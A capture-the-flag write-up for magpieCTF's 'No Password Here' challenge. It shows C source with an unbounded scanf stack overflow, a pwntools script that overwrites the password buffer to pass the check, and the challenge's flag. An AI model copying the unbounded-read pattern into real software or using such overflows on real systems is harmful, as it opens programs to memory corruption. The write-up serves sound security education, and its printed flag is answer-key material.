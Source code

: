 # No Password Here

## Challenge

We're given a small C binary with source code.

### Checksec

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

### Code.c

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>
void main()
{
	char flag[120];
	setvbuf ( stdout, NULL , _IONBF , 0 );
	char Test[20];

	//random number based on the current time.
	//YOU WILL NEVER GUESS THE PASSWORD. HAHAHAHAHHAH
    srand(time(0));
	sprintf(Test, "%d",rand());	
	
	
    char input[20];
    printf("Enter something?");
    scanf("%s",input);

	//Check password
	if (strncmp(Test,input,20) == 0)
	{
		FILE *f = fopen("flag.txt","r");
		
		fgets(flag,100,f);
		
		printf("Password is correct! Here is your flag: %s", flag);
	}
	

}
```

## Solution

The function uses `scanf` in an unsafe way, as there is no limit on how many characters we read into `input`.

As `input` is at a lower address than `Test`, we can overwrite the randomly generated password.

The check is done using `strncmp` with a length of 20, so only up to 20 characters will be tested.

If we send 0x40 characters, we can fill both buffers with "A"s and pass the password check.
Note that we need more than just 20+20 characters, as the buffers are actually 32 bytes apart in memory.

## Exploit

```py
#!/usr/bin/env python3
from pwn import *

host = args.HOST or 'srv1.2023.magpiectf.ca'
port = int(args.PORT or 1996)

io = connect(host, port)

io.sendline(b'A' * 0x40)

io.interactive()
```

## Flag

```
magpie{5c4nf_n07_54f3}
```
